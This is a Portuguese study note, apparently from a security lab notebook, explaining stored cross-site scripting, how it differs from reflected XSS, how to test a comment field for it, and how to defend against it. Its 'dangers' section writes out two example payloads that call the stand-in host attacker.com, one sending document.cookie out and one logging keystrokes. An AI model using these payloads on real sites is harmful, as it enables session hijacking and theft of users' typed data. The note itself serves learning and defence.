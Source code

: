 [[4 - LABS- XSS - Cross-site scripting (Stored)]]
### O que é **XSS Stored** (Cross-Site Scripting Armazenado)?

**XSS Stored** é uma vulnerabilidade onde o atacante **injeta scripts maliciosos** (geralmente em **JavaScript**) em um site, e **esses scripts são armazenados permanentemente** pelo servidor (em banco de dados, arquivos, etc). Depois, quando outro usuário acessa a página, o script é **executado automaticamente no navegador** da vítima.

---

### Diferença entre Reflected e Stored

|Tipo de XSS|Como Funciona|Necessita Engenharia Social?|Alcança vários usuários?|
|---|---|---|---|
|**Reflected**|O script está no link. A vítima precisa clicar nesse link.|Sim|Não|
|**Stored**|O script é armazenado no servidor (ex: comentário, post, etc).|Não|Sim|

---

### Exemplo prático (como você mencionou):

1. Você acessa um campo de **comentário** em um site.
    
2. O site **exibe os comentários salvos no banco de dados** sempre que recarrega a página.
    
3. Você testa HTML simples, como:
    
    ```html
    <b>Olá eu estou em negrito</b>
    ```
    
    E ele mostra corretamente, ou seja, o site **não está filtrando** HTML (isso já é um sinal de alerta para HTML Injection).
    
4. Você testa agora com um **script malicioso**:
    
    ```html
    <script>alert("Olá, triggamos um XSS Stored")</script>
    ```
    
    - Ao postar, talvez **nada aconteça imediatamente**.
        
    - Mas ao dar F5 ou outro usuário acessar, o **alerta aparece**, o que significa que o **script foi salvo no banco de dados e executado no navegador** da vítima — esse é um XSS Stored confirmado.
        

---

### Perigos do XSS Stored

- Roubo de cookies/session tokens:
    
    ```js
    <script>fetch("https://attacker.com/cookie?c=" + document.cookie)</script>
    ```
    
- Keyloggers:
    
    ```js
    <script>
      document.onkeypress = function(e) {
        fetch('https://attacker.com/log?key=' + e.key);
      }
    </script>
    ```
    
- Redirecionamento malicioso, defacement do site, execução de payloads complexos, etc.
    

---

### Como proteger?

- **Escapar ou remover tags HTML** perigosas (`<script>`, `<img onerror>`, etc.).
    
- Usar **Content Security Policy (CSP)**.
    
- Validar e sanitizar **dados de entrada** e de **saída**.
    
- Evitar exibir conteúdo do usuário como **HTML**, a menos que seja seguro.